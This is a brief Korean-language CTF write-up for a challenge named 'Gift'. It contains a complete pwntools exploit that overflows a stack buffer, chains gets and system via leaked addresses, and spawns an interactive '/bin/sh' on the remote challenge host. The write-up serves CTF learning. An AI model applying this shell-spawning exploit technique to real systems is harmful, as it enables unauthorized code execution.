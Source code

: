 # Gift

실행시키면 "/bin/sh"를 입력할 수 있는 영역의 주소와 system함수의 주소를 알려준다.   
이를 이용하면 쉽게 해결할 수 있다.   
</br>

```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3018)
e = ELF('./gift')

gets_addr = e.symbols['gets']
pr = 0x80483ad

p.recvuntil(': ')

binsh = int(p.recv(10), 16)
system_addr = int(p.recv(10), 16)

payload = ''
payload += 'A'*0x84 + 'BBBB'

payload += p32(gets_addr)
payload += p32(pr)
payload += p32(binsh)

payload += p32(system_addr)
payload += "BBBB"
payload += p32(binsh)


p.sendline('AAAA')
p.recvline()

p.sendline(payload)

p.sendline('/bin/sh\00')

p.interactive()
```

